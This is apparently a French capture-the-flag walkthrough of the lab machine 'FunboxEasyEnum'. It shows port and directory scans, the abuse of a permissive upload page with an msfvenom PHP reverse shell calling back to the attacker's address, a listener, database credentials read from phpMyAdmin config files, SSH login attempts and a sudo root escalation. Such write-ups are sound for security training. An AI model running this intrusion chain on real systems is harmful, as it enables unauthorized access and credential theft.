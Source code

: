 # FunboxEasyEnum

	sudo masscan -p1-65535,U:1-65535 192.168.249.132 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.249.132 -oN nmap.txt
	feroxbuster --silent -u http://192.168.249.132

Scans classiques.

	PORT STATE SERVICE VERSION  
	22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
	80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
	
=> http://192.168.249.132/robots.txt => "Allow: Enum_this_Box"
</br>=> http://192.168.249.132/phpmyadmin/

Fuzzing : 

	ffuf -u http://192.168.249.132/Enum_this_Box/FUZZ -w  ~/wordlists/dirb_big.txt  -e .pdf,.php,.txt,.ini,.conf,.log,.html,.js,.bak,.aspx,.asp,.zip -fc 403
	ffuf -u http://192.168.249.132/FUZZ -w  ~/wordlists/dirb_big.txt  -e .pdf,.php,.txt,.ini,.conf,.log,.html,.js,.bak,.aspx,.asp,.zip -fc 403

=> http://192.168.249.132/mini.php

Il y a une fonctionnalité d'upload qui a l'air très permissive.

	msfvenom -p php/reverse_php LHOST=192.168.45.158 LPORT=443 -f raw > rev.php
	...
	curl http://192.168.249.132/rev.php
	rlwrap nc -nvlp 443
	...
	cat ../local.txt
	
### Pivoting et élévation de privilèges : 

	cat /etc/phpmyadmin/*

> $dbuser='phpmyadmin';  
> $dbpass='tgbzhnujm!';

	ls /home -la
	==========
	ssh goat@192.168.249.132    # FAIL
	ssh harry@192.168.249.132   # FAIL
	ssh sally@192.168.249.132   # FAIL
	ssh karla@192.168.249.132   # OK

	sudo -l 
	sudo -i
	cat /root/proof.txt
	
